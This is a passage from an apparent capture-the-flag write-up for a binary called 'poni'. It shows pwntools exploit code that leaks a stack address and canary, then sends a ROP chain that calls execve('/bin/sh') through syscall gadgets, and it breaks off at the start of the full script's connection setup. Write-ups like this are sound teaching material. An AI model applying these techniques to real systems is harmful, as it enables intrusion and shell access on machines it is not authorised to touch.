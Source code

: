 
```python
    # Overwrite the mov instructions.
    bin_base_offset -= 0x20
    read_movl_offset = exe.sym['main']+3670+3 - exe.address
    io.sendline(f"{bin_base_offset+read_movl_offset}".encode())

    bin_base_offset -= 0x20
    write_movq_offset = exe.sym['main']+3627+4 - exe.address
    io.sendline(f"{bin_base_offset+write_movq_offset}".encode())

    io.recvuntil(b"poni")
    io.recv(21)
    stack = u64(io.recv(8))
    canary = u64(io.recv(8))
    info(f"stack: {hex(stack)}")
    info(f"canary: {hex(canary)}")
```

After we leak all the stuff we need it all comes down to a simple rop chain.

```python
    rbp = p64(stack+0x20)
    # 0x0000000044c07e: pop rsi; ret;
    pop_rsi = 0x0000000044c07e
    # 0x0000000042c05c: pop rax; ret;
    pop_rax = 0x0000000042c05c
    # 0x0000000040478d: pop rdi; pop rbp; ret;
    pop_rdi_rbp = 0x0000000040478d
    # 0x000000004025cc: syscall;
    syscall = 0x000000004025cc
    
    payload = b"/bin/sh\x00".rjust(24, b"\xfa") + p64(canary) + rbp + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rdi_rbp) + p64(stack-0x20) + p64(0x6162) + \
        p64(syscall)
    io.sendline(payload)
    info("payload sent")
    io.sendlineafter(b"poni", f"{0xc0ffee}".encode())
    io.interactive()
```

And this is the full exploit:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./poni")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
            io = gdb.debug([exe.path], aslr=True, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        io = remote("127.0.0.1", 1337)
```